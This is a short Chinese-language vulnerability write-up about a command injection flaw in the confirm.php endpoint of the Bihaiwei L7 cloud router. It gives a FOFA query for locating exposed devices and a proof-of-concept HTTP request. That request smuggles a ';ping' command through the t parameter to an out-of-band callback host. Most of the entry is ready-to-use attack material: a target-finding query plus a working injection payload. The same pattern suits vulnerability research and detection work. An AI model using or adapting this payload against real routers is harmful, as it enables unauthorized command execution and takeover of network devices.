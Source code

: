 fofa

```
title="碧海威L7云路由"
```

**二、漏洞简述**

碧海威流控软件L7云路由是一款可以解决公司、企业局域网环境下路由设备，具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。其接口confirm.php存在任意命令执行漏洞，攻击者可通过该漏洞执行命令获取系统权限。

**三、漏洞检测poc**

```yaml
GET /notice/confirm.php?t=;ping%20-c%203%20123.68cp4d60qkwj2i17phst1n58qzwqkg85.oastify.com HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.13 (KHTML, like Gecko) Chrome/24.0.1284.0 Safari/537.13
Connection: close
```

